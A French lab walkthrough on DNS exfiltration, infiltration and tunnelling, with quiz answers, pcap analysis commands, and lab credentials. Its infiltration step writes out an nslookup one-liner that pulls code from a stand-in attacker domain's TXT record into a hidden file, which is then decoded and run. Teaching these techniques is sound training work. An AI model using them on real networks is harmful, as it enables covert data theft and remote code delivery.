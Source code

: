## Manipulation de DNS

Lors de ce TP nous explorerons les techniques utilisées pour exfiltrer et infiltrer les données à travers des serveurs DNS.<br/>

A quoi servent les serveurs DNS ?<br/>
Le DNS est un système de noms de domaine faisant référence à un système de nommage qui résout les noms de domaine avec des adresses IP. Les serveurs DNS sont répartis dans le monde entier et sont constamment mis à jour et synchronisés entre eux de manière systématique.
<p align="center">
  <img src="https://blog.nameshield.com/fr/wp-content/uploads/sites/3/2017/04/r%C3%A9solution-dns-2-5.jpg"/>
</p>

L'objet sera d'explorer les techniques pour exfiltrer et infiltrer les données ainsi que le Tunneling de DNS Tunneling et comment il peut être utilisé pour bypasser différents protocoles comme HTTP via DNS.

<p align="center">
  <img src="https://cdn.discordapp.com/attachments/798799811482353734/798809211060355092/intro-2-1.png"/>
</p>

##### Installation de l'environnement de travail pour le TP :

```console
$ git clone https://github.com/kleosdc/dns-exfil-infil

$ sudo apt-get update
$ sudo apt-get install python3-pip
$ export PATH=/usr/local/bin:$PATH

$ sudo pip3 install base58
$ sudo pip3 install pyshark
```

Iodine permet de tunneler les données IPv4 via un serveur DNS. Cela peut être utile dans différentes situations où l'accès Internet est protégé par un pare-feu, mais les requêtes DNS sont autorisées.

Installer iodine :
```console
$ sudo apt-get install iodine
```

Wireshark est un analyseur de paquets libre et gratuit. 

Installer Wireshark :
```console
$ sudo apt-get install tshark
```

---

#### DNS :

Sous Windows, quelle commande utiliser pour requêter un enregistrement txt pour YouTube.com ?
```console
Réponse : nslookup type=txt youtube.com
```

Sous Linux, quelle commande utiliser pour requêter un enregistrement txt pour Facebook.com ?
```console
Réponse : dig -t txt facebook.com
```

Quel type d'adresses IP stocke le AAAA avec le nom de hôte ?
```console
Réponse : IPv6
```

Le nombre maximum de caractères pour un enrigrement DNS est de 256. Vrai/Faux ?
```console
Réponse : Faux
```

Quel enregistrement DNS donne le nom du domaine en reverse-lookup ?
```console
Réponse : PTR
```

Quel serait le résultat d'un reverse-lookup pour l'adresse IPv4 suivante : 192.168.203.2 ?
```console
$ dig -x 192.168.203.2
```

```console
Réponse : 2.203.168.192.in-addr.arpa
```

Quelle est la taille maximale d'un nom DNS ? (en incluant les points!)
```console
Réponse : 253
```

---

#### Exfiltration DNS :

L'exfiltration DNS est une technique qui consiste à utiliser le DNS pour dérober des données.<br/>
Cette technique est principalement utilisée comme moyen de collecter des informations personnelles telles que les numéros de sécurité sociale, la propriété intellectuelle ou d'autres informations personnellement identifiables.<br/>
Cela consiste à ajouter des chaînes contenant le « butin » souhaité aux requêtes DNS UDP. La chaîne contenant le butin est alors envoyée à un serveur DNS malveillant qui enregistre ces requêtes. Pour un oeil non averti, cela pourrait ressembler à un trafic DNS normal ou ces demandes pourraient être perdues dans le mélange de nombreuses demandes DNS légitimes.

<p align="center">
  <img src="https://cdn.discordapp.com/attachments/798799811482353734/807298488881643550/exfil.png"/>
</p>

Se connecter à la machine cible en SSH en utilisant les crédentials :
* Utilsateur : user
* Mot de passe : P@ssword01

Parcourir les fichiers dans les dossiers :
```console
~/challenges/exfiltration
~/dns-exfil-infil/
```

Aller dans le dossier ci-dessous et lire les instructions dans le fichier TASK :
```console
$ cd ~/challenges/exfiltration/orderlist
```

Le .pcap extension de fichier est principalement associée avec Wireshark; un programme utilisé pour l'analyse de réseaux. .pcap fichiers sont des fichiers de données créés en utilisant le programme et ils contiennent les données en paquets d'un réseau. Ces fichiers sont utilisés principalement dans l'analyse des caractéristiques du réseau d'un certain données. Ils contribuent également à contrôler avec succès le trafic d'un certain réseau depuis qu'ils sont surveillés par le programme.

Analyser le fichier order.pcap et détecter le fichier comportant des requêtes suspectes :
```console
$ tshark -r order.pcap -T fields -e dns.qry.name > DNS_names.txt
```

Le script ~/dns-exfil-infil/packetyGrabber.py permet de decrypter les fichiers Wireshark.
```console
$ python3 ~/dns-exfil-infil/packetyGrabber.py
File captured: order.pcap
Filename output: results.txt
Domain Name (Example: badbaddoma.in): badbaddoma.in
...
```

Ignorer l'exception levée à la fin du script.

Quel est le nom de la première transation ? 
```console
Réponse : Network Equip.
```

Quel est le montant de la transaction Firewall ?
```console
Réponse : 2500
```

Aller dans le dossier ci-dessous :
```console
$ cd ~/challenges/exfiltration/identify/
```
Parmi les fichiers `*.pcap` analyser leur contenu :
```console
tshark -r cap1.pcap -T fields -e dns.qry.name
```

Quel fichier contient des requêtes DNS douteuses ?
```console
Réponse : cap3.pcap
```

```console
python3 ~/dns-exfil-infil/packetyGrabber.py
```

Trouver le texte récupéré après avoir décodé les données en utilisant le programe Pyhton packetyGrabber.py qui se trouve dans le dossier `~/dns-exfil-infil/`.
```console
Réponse : administrator:s3cre7P@ssword
```

---

#### Infiltration DNS :

L'infiltration DNS est une autre technique d'attaque qui exploite les vulnérabilités des DNS. Cette technique passe par un code malveillant qui est exécuté pour manipuler les serveurs DNS soit à l'aide de systèmes automatisés qui permettent aux attaquants de se connecter à distance à l'infrastructure réseau, soit à l'aide de programme frauduleux.<br/>
Le but étant souvent de supprimer des fichiers ou d'exécuter du code sur les machines ciblées.

<p align="center">
  <img src="https://cdn.discordapp.com/attachments/798799811482353734/807297515518427197/infil.png"/>
</p>

Récupérer un enregistrement au format TXT du sous-domaine `code` du domaine `badbaddoma.in` et en extraire la valeur dans un fichier :
```console
$ nslookup -type=txt code.badbaddoma.in | grep Ye | cut -d \" -f2 > .mal.py
```

Le contenu représente du code python crypté.<br/>
Décrypter le contenu avec le script python ~/dns-exfil-infil/packetySimple.py :
```console
$ python3 ~/dns-exfil-infil/packetySimple.py
```

Exécuter le script et afficher le résultat :
```console
Réponse : 4.4.0-186-generic
```
